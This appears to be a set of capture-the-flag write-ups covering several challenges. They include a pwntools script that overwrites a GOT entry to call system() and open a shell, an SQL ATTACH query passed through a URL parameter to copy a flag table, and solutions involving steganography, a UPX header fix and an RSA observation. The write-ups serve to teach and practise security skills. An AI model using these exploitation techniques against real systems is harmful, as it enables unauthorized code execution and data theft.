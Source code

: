 ```python
from pwn import *

conn = remote("stephencurry.ctfchallenge.ga", 5001)
elf = ELF("./goat")

conn.recvuntil("?")
conn.sendline("4210712") # puts() GOT, in decimal form
conn.recvuntil("?")
conn.sendline("4198560") # system() PLT, in decimal form
conn.sendline("bash 1>&2")
conn.interactive()
```

## What's a database

We can attach the flag database into our own in-memory database and copy over the table into the `whatsthis` table the challenge needs:

```/db?script=ATTACH 'flag.db' AS f; CREATE TABLE whatsthis (flag VARCHAR(80) PRIMARY KEY); INSERT INTO whatsthis SELECT flag FROM f.flag;```

## Overlooked

Extract the zip, use zero-width steganography (https://330k.github.io/misc_tools/unicode_steganography.html with all boxes checked) decrypt on the text file to get the password `thisisthepasswordforthefilebutinzwspglhf`. Then use steghide to extract a zlib file out. Use zlib-flate to uncompress the file, to get the image with the flag.

## Little

Convert the endianness from little endian. Remove the padding at the end after the `}`.

## vnpack

The binary has been packed with UPX, but all occurences of `UPX!` have been replaced with `VPX!`, causing the binary not to run properly. This can be seen by looking at the strings in the binary (occuring both at the start and the end), and the challenge title helps a bit too. Fixing this allows us to just run it to obtain the flag.

```bash
#!/bin/bash
sed -i 's/VPX!/UPX!/g' ./vnpack
./vnpack
```

## Bland RSA

We see that the value for $e$ is extremely big. We might assume that the decryption exponent $d$ is not very large in this case, and that as such Wiener's attack or the attack of Boneh and Durfee applies.
This might work, but instead, upon further inspection, we observe that the ciphertext is in fact not encrypted at all.
As it turns out, $e = \lambda(N) + 1$, resulting in $m^e \equiv m \pmod N$.
